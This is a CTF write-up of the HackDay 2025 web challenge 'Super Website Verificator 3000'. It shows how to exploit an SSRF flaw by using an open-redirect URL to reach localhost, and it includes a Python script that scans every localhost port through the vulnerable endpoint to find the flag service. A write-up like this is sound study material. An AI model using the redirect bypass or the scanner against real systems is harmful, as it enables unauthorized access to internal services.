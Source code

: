 ```yaml
---
title: HackDay 2025 - Super Website Verificator 3000
date: 2025-01-26
categories:
  - CTFs
  - HackDay 2025
  - Web
tags:
  - web
  - ssrf
description: Web challenge exploiting an SSRF vulnerability allowed bypassing restrictions via an Open Redirect, leading to a port scan on localhost and retrieving the flag. 🚀
---
```

## Description 

* Category: Web 
* Vulnerability: SSRF

> Our team of brilliant engineers has developed a highly sophisticated website designed to perform check-ups on other sites. It can even uncover hidden information, possibly concealed by some clever tricksters. Take a look and see if you can find anything!

[Link of the event](https://ctftime.org/event/2615)

## Enumeration

![](assets/img_0128_0528_bgxfj.png)

Upon inspecting the web application, we notice it allows users to make requests to other sites and display their content. This feature indicates a potential **Server-Side Request Forgery (SSRF)** vulnerability. In an SSRF attack, an attacker can manipulate the server to make requests to internal resources or services that are otherwise not accessible.


## Exploitation 

### Trying to Access Localhost

In most SSRF scenarios, attackers attempt to access **localhost** or internal network services to extract sensitive information, like private APIs, databases, or internal files. In this case, we send a request to the server using `localhost` to try and gather sensitive data :

![](assets/img_0128_0529_nhken.png)

However, the application doesn't allow direct access to `localhost` this way. When we attempt to access `http://localhost`, we get an error message.

### Exploiting Open Redirect 

We can try using an **Open Redirect**. We send a link which, when viewed, redirects the victim to the chosen domain. For example this link:

```
https://302.r3dir.me/--to/?url=http://localhost
```
- This link will appear valid, as it uses the `https://302.r3dir.me/` domain, which is accepted by the application.
- However, when the victim accesses this link, they will be redirected to `localhost`, bypassing the server's restrictions.

![](assets/img_0128_0530_fszyq.png)

### Port Scanning 

With Open Redirect in place, we can now use SSRF to perform a **port scan** on the internal network (in this case, on `localhost`). The goal is to find open ports that might be running services that could leak sensitive data.

```python
import requests
import urllib3

# Désactive les avertissements SSL pour éviter le spam dans les logs
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Configuration du proxy Burp Suite 
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
URL = "http://challenges.hackday.fr:43244/api/check"

# Fonction principale pour scanner les ports
def main():
    print("[+] Scan de ports en cours...")
    
    for port in range(1, 65536):  # Plage des ports à scanner
        payload = f'https://302.r3dir.me/--to/?url=http://localhost:{port}/'
        data = {
            "url": payload, 
            "showBody": "on"
        }
        r = requests.post(URL, data=data, verify=False, proxies=proxies)
        res_json = r.json()
        if res_json["online"] != False:
            print("[+] Port ouvert: ", port)
            print("Payload: ", payload)
    
    print("[+] Scan fini.")

# Script principal
if __name__ == "__main__":
    main()
```

The port scan results show that **port 600** is open. Using the payload targeting this port, we access the service running on `localhost:600`.

Payload:
```
https://302.r3dir.me/--to/?url=http://localhost:600/
```

![](assets/img_0128_0531_ienzk.png)

This leads us to the **flag**.

Flag : `HACKDAY{Give_ME_YOuR_L0OPb@CK}`
